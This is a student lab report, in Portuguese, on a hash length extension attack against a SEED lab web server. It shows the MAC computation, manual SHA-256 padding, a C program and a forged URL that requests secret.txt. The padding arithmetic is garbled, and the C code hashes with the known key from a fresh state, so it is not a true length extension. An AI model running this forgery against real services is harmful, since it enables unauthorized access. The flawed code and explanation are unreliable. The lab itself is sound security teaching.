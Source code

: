 # Hash Length Extension Attack Lab

## Setup

- Construimos o container. 

```bash
$ dcbuild
$ dcup
```

- Certificamo-nos que o hostname está corretamente mapeado para o servidor.

```bash
$ sudo nano /etc/hosts
```

![image](/screenshots/LB10_1.png)

- Obtemos a shell do container.

```bash
$ dockps
$ docksh 39
```

## Task 1

- Com o o bjetivo de enviar requests ao servidor, obtemos os argumentos necessários.

- Na shell corremos os seguintes comandos:

```bash
# cat LabHome/key.txt
1001:123456
1002:983abe
1003:793zye
1004:88zjxc
1005:xciujk
```

- Escolhemos o `uid`: 1001 e a `key` correspondente: 123456.

- O nome a ser utilizado: DomingosNeto

- Desta forma, calculamos o MAC

```bash
$ echo -n "123456:myname=DomingosNeto&uid=1001&lstcmd=1" | sha256sum

dadcdd45b873b2f32ea675591ca045e23b81f1b1a2fa43f9562f6074b081f726  -
```

- Tendo o MAC calculado, foi possível contruir o request completo.

```
http://www.seedlab-hashlen.com/?myname=DomingosNeto&uid=1001&lstcmd=1&mac=dadcdd45b873b2f32ea675591ca045e23b81f1b1a2fa43f9562f6074b081f726
```

- Enviamos o request e obtivemos a seguinte resposta do servidor:

![image](/screenshots/LB10_2.png)

- Depois enviamos um request com o comando `download` e o resultado foi o seginte.

```
http://www.seedlab-hashlen.com/?myname=DomingosNeto&uid=1001&lstcmd=1&download=secret.txt&mac=dadcdd45b873b2f32ea675591ca045e23b81f1b1a2fa43f9562f6074b081f726
```

![image](/screenshots/LB10_3.png)

## Task 2

- Considerando a mensagem:

```
"123456:myname=DomingosNeto&uid=1001&lstcmd=1"
```

- O tamanho da mensagem é de 44 bytes. Portanto, o padding é `64-44=20`.

- 20 bytes são 44 bytes são `8*44=352` bits sendo igual a `0x0160`

```
"123456:myname=DomingosNeto&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x01\x60"
```

- Em formato compatível com URL temos:

```
"%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%60"
```

## Task 3

Começamos a task por instalar as livrarias necessárias com o comando ```sudo apt install libssl-dev```.

Usando os paddying bytes obtidos na task anterior seguidos por "&download=secret.txt", substituímos o segundo campo da função ***SHA256_Update***.

```c
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;
    SHA256_Init(&c);

    // Append additional message
    SHA256_Update(&c,
        "123456:myname=DomingosNeto&uid=1001&lstcmd=1"
        "\x80"
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        "\x00\x00\x00\x00\x00\x00\x00\x01\x60"
        "&download=secret.txt",
        64 + 20);

    SHA256_Final(buffer, &c);

    for (i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");

    return 0;
}
```
Compilando o código com ```gcc length_ext.c -o length_ext -lcrypto``` e o executando retorna :

![MAC](/screenshots/LB10_4.png)

Podemos assim construir o url :

```
http://www.seedlab-hashlen.com/?myname=DomingosNeto&uid=1001&lstcmd=1
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%60
&download=secret.txt&mac=
b361c51dab6526590c77edeb6a6a387d938bb10c6e2df64f4e2bdc99fa4a74ae
```

![Task3 Result](/screenshots/LB10_5.png)
